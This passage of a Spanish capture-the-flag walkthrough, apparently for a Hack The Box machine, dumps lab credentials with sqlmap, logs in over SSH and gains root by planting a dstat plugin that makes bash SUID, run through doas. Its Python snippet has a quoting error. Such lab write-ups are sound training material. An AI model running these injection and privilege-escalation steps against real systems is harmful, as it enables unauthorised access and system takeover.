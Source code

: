 Este código lo ejecutariamos en nuestra máquina local y en otra terminal ejecutariamos el siguiente comando

```sql
sqlmap -u "http://localhost:8081/?id=1" -p "id"
```

Este proceso puede tardar una eternidad pero con paciencia conseguiras la contraseña

```sql
+------+-------------------+----------+----------------------+
| id   | email             | username | password             |
+------+-------------------+----------+----------------------+
| 1324 | player@player.htb | player   | PlayerOftheMatch2022 |
+------+-------------------+----------+----------------------+
```

Teniendo la contraseña podemos conectarnos al ssh y conseguir la user.txt

```ssh
ssh player@10.129.116.169
player@10.129.116.169's password: PlayerOftheMatch2022
```
# [](#header-2) Escalada de privilegios

Mirando el servidor encontramos en la carpeta /usr/bin/dstat que utiliza "dstat" que es bastante similiar a sudo. Para escalar de privilegios tendremos que crearnos un pluggin dstat_*algo*.py en la carpeta /usr/local/share/dstat/

```python
nano dstat_eskere.py
import os
os.system(chmod u+s /usr/bin/bash')
```
Una vez creado este archivo, le damos permisos de ejecución y lo ejecutamos con dstat
```dstat
doas -u root /usr/bin/dstat --eskere
```
Ejecutamos ```bash -p``` y obtendríamos root, buscamos el directorio /root y allí encontraremos root.txt y habríamos terminado la máquina
